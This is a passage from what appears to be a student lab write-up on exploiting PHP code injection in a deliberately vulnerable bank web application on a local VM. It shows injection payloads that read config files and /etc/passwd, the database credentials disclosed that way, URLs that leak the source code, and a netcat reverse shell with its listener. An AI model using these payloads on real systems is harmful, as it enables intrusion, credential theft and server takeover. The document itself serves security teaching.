  \textbf{Result} 
\includegraphics{images/task2/phpinfo.PNG}
\end{itemize}

\textbf{2. Disclose the master password for the database your bank
application has access to. Indicate username, password and DB name as
well as the IP address of the machine this database is running on.}
\textbf{solution}

\begin{itemize}
\tightlist
\item
  Find the current location of the application and files in it.
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
 \StringTok{\textquotesingle{}. system("pwd"); .\textquotesingle{}} 
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
 \StringTok{\textquotesingle{}. system("ls"); .\textquotesingle{}} 
\end{Highlighting}
\end{Shaded}

\textbf{Result}

\begin{figure}
\centering

\includegraphics{images/task2/code_execution_output.PNG}
\caption{code\_execution\_output}
\end{figure}

\begin{itemize}
\item
  Found \texttt{config.php} file in \texttt{/etc} folder, now use the
  path to display out to the browser.

\begin{Shaded}
\begin{Highlighting}[]
\StringTok{\textquotesingle{}. system("cat ../etc/config.php"); .\textquotesingle{}} 
\end{Highlighting}
\end{Shaded}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/6_2.JPG}
  \caption{database\_Details}
  \end{figure}
\end{itemize}

\textbf{Database Details found:}

\begin{longtable}[]{@{}ll@{}}
\toprule
Identifier & Value \\
\midrule
\endhead
Database Name & vbank \\
user & root \\
password & kakashi \\
ip & 127.0.0.1 \\
\bottomrule
\end{longtable}

\textbf{3. Explain how you can display the php settings of your
webserver! Which information is relevant for the attacker?}
\textbf{solution}

\begin{itemize}
\item
  Relevant info:

  \begin{itemize}
  \tightlist
  \item
    Exposing PHP version can lead to know attacks on that particular
    version.
  \end{itemize}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/PHPV.JPG}
  \caption{etc\_passwd\_displaying}
  \end{figure}

  \begin{itemize}
  \tightlist
  \item
    Access to remote files can lead to attacks like SSRF.
  \end{itemize}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/PHPV1.JPG}
  \caption{etc\_passwd\_displaying}
  \end{figure}

  \begin{itemize}
  \tightlist
  \item
    Open directory on can lead to remote file inclusion vulnerabilities.
  \end{itemize}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/PHPV2.JPG}
  \caption{etc\_passwd\_displaying}
  \end{figure}

  \begin{itemize}
  \tightlist
  \item
    Session details are useful to plot attack on user sessions like
    Session Hijaking or Fixation.
  \end{itemize}

  \begin{figure}
  \centering
  
\includegraphics{images/task2/PHPV3.JPG}
  \caption{etc\_passwd\_displaying}
  \end{figure}
\end{itemize}

\textbf{4. Assume you are running a server with virtual hosts. Can you
disclose the password for another bank database and can you access it?
Explain which potential risk does this vulnerability imply for virtual
hosts?} \textbf{Solution} Yes, as the code injection can lead to server
takeover, it is possible to view database and passwords of all the bank
acounts running on root host. Since the settings(\texttt{example.conf})
can be modified(Assuming the taken over account has write permissions).

\begin{quote}
Usually database is same for all sub-domains in the application, unless
the database is different for each virtual host, there are chances that
vulnerable vhost has no to minimum impact on accessing other databases.
\end{quote}

If one virtual host is exploitable(code injection) that lead to other
subdomain take over because of remote code injection vulnerability in
one, which is a potential risk in vhosts. - Even though attacker may not
have access to other subdomains intially, vulnerable subdomain (which
attacker has access to) leads to other sub-domain take over.

\textbf{5. Display /etc/passwd of the web server, the bank application
is running on. Try different methods to achieve this goal. Explain why
some methods cannot be successful.} \textbf{solution}

\begin{itemize}
\item
  payload used:
  \texttt{php\ \ \ \ \ \ \ \ \ \textquotesingle{}.\ system("cat\ /etc/passwd")\ .\textquotesingle{}}
\item
  Result:

  \begin{figure}
  \centering
  
\includegraphics{images/task2/etc_passwd.PNG}
  \caption{etc\_passwd\_displaying}
  \end{figure}
\item
  Other methods used/tried:(not successful)
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \StringTok{\textquotesingle{} . echo include\_once(\textquotesingle{}}\OperatorTok{/}\NormalTok{etc}\OperatorTok{/}\NormalTok{passwd}\StringTok{\textquotesingle{}) . \textquotesingle{}}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
    \StringTok{\textquotesingle{} . show\_source("../../../../../../../etc/passwd", true) . \textquotesingle{}}
\end{Highlighting}
\end{Shaded}

\begin{Shaded}
\begin{Highlighting}[]
    \StringTok{\textquotesingle{} .  echo file\_get\_contents("../../../../../../../etc/passwd"); . \textquotesingle{}}
\end{Highlighting}
\end{Shaded}

The above methods are un-successfull as they are executing on server
side but not as a response that can be viewed in browser.

\textbf{6. Show how to ``leak'' the complete source files of your web
application. Briefly describe, how you accomplished this.}
\textbf{solution :} - Since, command execution on \texttt{htbdetails}
\textgreater{} \texttt{Account\ details} page is possible, we used
system commands to display the source files.

\begin{itemize}
\tightlist
\item
  Leaking index page

  \begin{itemize}
  \item
    payload used
    \texttt{php\ \ \ \ \ \ \ \textquotesingle{}.\ system("cat\ index.php")\ .\textquotesingle{}}
  \item
    Application URL
    \texttt{javascript\ \ \ \ \ \ \ http://192.168.37.128/htdocs/index.php?account=173105291\&page=\ \ \ \ \ \ \ htbdetails\&query=\%27.+system\%28\%22cat+index.php\%22\%29+.\%27\&\ \ \ \ \ \ \ submit=Submit+Query}
  \item
    \textbf{Result}

    
\includegraphics{images/task2/leak_source_1.PNG}
  \end{itemize}
\item
  Leaking login.php page

  \begin{itemize}
  \tightlist
  \item
    payload used
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\StringTok{\textquotesingle{}. system("cat login.php") .\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

  \begin{itemize}
  \tightlist
  \item
    Application URL
    \texttt{javascript\ \ \ \ \ \ \ http://192.168.37.128/htdocs/index.php?account=173105291page=htbdetails\ \ \ \ \ \ \ \&query=\%27.+system\%28\%22cat+login.php\%22\%29+.\%27\&submit=Submit+Query}
  \item
    \textbf{Result} 
\includegraphics{images/task2/leak_source_2.PNG}
  \end{itemize}
\end{itemize}

\textbf{7. Suppose you are an anonymous attacker: a) Upload a web shell
on the victim server and show that you can take control of the server.
b) Deface the main bank page. c) Clear possible traces that could lead
to you.} \textbf{solution :}

\textbf{a}). Used \texttt{netcat} for creating a reverse connection from
victim machine - payload used:

\begin{Shaded}
\begin{Highlighting}[]
    \StringTok{\textquotesingle{}. system("nc {-}e /bin/sh 192.168.37.128 1234") .\textquotesingle{}}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  On attcker machine (listen on corresponding port - 1234),
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
    \ExtensionTok{$}\NormalTok{ sudo nc }\AttributeTok{{-}lvnp}\NormalTok{  1234  }
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
